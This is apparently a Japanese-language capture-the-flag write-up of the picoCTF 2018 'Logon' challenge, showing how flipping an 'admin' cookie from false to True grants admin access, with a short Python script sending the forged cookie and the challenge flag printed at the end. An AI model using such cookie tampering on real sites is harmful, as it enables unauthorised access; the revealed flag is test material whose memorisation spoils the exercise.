 # Logon 

## Solve
```
I made a website so now you can log on to! 
I don't seem to have the admin password. 
See if you can't get to the flag. 
http://2018shell.picoctf.com:57252 (link)
```

## Hint
```
Hmm it doesn't seem to check anyone's password, except for admins?
How does check the admin's password?
```

<br>

## Solution

![1](https://user-images.githubusercontent.com/47602064/67435086-5febf480-f626-11e9-936a-f712695e9339.png)

問題のページに移動すろとloginページが表示されます。

試しに`name: admin`と`pass: admin`と入力してみます。

![2](https://user-images.githubusercontent.com/47602064/67435187-9295ed00-f626-11e9-8c0b-ab7e8abb8b33.png)

すると以上のようにログインは出来たようですが、flagは得られませんでした・

デバッグで見てみると`Cookie`で`admin`が`false`になっていることが以下でわかります。

![3](https://user-images.githubusercontent.com/47602064/67435243-ae00f800-f626-11e9-872e-fa67274d0fd0.png)

![4](https://user-images.githubusercontent.com/47602064/67435306-ca9d3000-f626-11e9-819d-bc40c6595cca.png)

なのでそこを`True`に変えてみて再読込をしてみます。

![5](https://user-images.githubusercontent.com/47602064/67435350-e3a5e100-f626-11e9-939c-97ffc8177212.png)

すると`admin`で`True`の結果になり、flagが得ることが出来ました。

<br>

Pythonで実行させる場合は以下のようなプログラムでflagを綺麗に得ることが出来ます。

```python
#!/usr/bin/python

import requests
import re

params = {'user': 'test', 'password': 'test', 'submit': 'Sign In'}
jar = {'admin': 'True'}

r = requests.get('http://2018shell1.picoctf.com:37861/flag', data=params, cookies=jar)
source = r.text
print re.findall(r'(picoCTF\{.+\})', source)[0]


<br><br>

## FLAG: picoCTF{l0g1ns_ar3nt_r34l_2a968c11}
